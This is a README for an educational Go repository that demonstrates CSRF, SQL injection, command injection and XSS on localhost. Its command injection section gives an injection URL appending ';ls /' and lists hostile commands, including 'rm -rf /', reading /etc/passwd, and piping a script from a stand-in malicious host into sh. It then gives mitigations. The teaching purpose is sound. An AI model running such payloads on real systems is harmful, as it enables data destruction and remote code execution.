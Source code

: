 # Web Security Standards Demo

## Introduction

This repository serves as an educational resource for understanding and addressing common web security vulnerabilities. It currently covers the following vulnerabilities through practical demonstrations, with actionable steps to mitigate them:

- Cross-Site Request Forgery (CSRF)
- SQL Injection
- Command Injection
- Cross-Site Scripting (XSS)

By studying these examples, developers can cultivate a security-first mindset, essential for building robust, production-grade web applications. This repo will be continuously updated with additional web security vulnerabilities and practices to further enhance secure development techniques.

## Project Structure (Go Workspace)

This repository now uses Go workspaces for better organization:

```
web-security/
├── go.work                 # Go workspace file
├── csrf/                  # CSRF protection demo
│   ├── go.mod
│   ├── main.go
│   └── templates/
├── xss/                   # XSS vulnerability demo
│   ├── go.mod
│   ├── main.go
│   └── templates/
├── sqli/                  # SQL injection demo
│   ├── go.mod
│   └── main.go
├── cmd-injection/         # Command injection demo
│   ├── go.mod
│   └── main.go
└── cmd/                   # Legacy structure
```

## How to Run Each Demo

### Using Makefile (Recommended)

```bash
# Show all available commands
make help

# Run specific demos
make csrf           # CSRF protection demo
make xss            # XSS vulnerability demo
make sqli           # SQL injection demo
make cmd-injection  # Command injection demo

# Sync workspace dependencies
make sync

# Test all modules build correctly
make test
```

### Manual Method

#### CSRF Protection Demo

```bash
cd csrf
go run main.go
```

Visit http://localhost:8080 to see CSRF protection in action using Gin framework.

#### XSS Vulnerability Demo

```bash
cd xss
go run main.go
```

Visit http://localhost:8080 to see XSS vulnerability demonstration.

#### SQL Injection Demo

```bash
cd sqli
go run main.go
```

Test with: http://localhost:8080/login?username=admin&password=password123

#### Command Injection Demo

```bash
cd cmd-injection
go run main.go
```

Test with: http://localhost:8080/gitlog?branch=main

## Go Workspace Benefits

Using `go.work` provides several advantages:

1. **Unified dependency management**: All modules share the same dependency cache
2. **Cross-module development**: Easy to work on multiple related modules
3. **Simplified building**: Build all modules with `go work sync`
4. **Better IDE support**: IDEs understand the workspace structure

## Workspace Commands

```bash
# Sync all modules in the workspace
go work sync

# Add a new module to workspace
go work use ./new-demo
```

### Command Injection

Command injection is a security vulnerability that occurs when an application passes unsafe user-supplied data to a system shell or command interpreter. Attackers can exploit this flaw to execute arbitrary commands on the host operating system, potentially compromising the entire system.

#### Running the Demo

To start the server, run:

```bash
go run cmd/commandinjection/main.go
```

#### Example Attack

Access the following URL to simulate a command injection attack:

```
http://localhost:8080/gitlog?branch=main%3Bls%20%2F
```

This URL injects an additional `ls /` command after the intended `main` branch, demonstrating how unsanitized input can lead to arbitrary command execution.

#### Potential Malicious Commands

Attackers may attempt to run various harmful commands, such as:

- `rm -rf /` — Deletes all files on the server.
- `cat /etc/passwd` — Reads sensitive system files.
- `whoami` — Reveals the user context the server is running under.
- `curl http://malicious-site.com/malware.sh | sh` — Downloads and executes malicious scripts.
- `ps aux` — Lists running processes, potentially exposing sensitive information.

#### Mitigation Strategies

- **Never** pass user input directly to system commands.
- Validate and sanitize all user inputs.
- Apply the principle of least privilege to the application process.

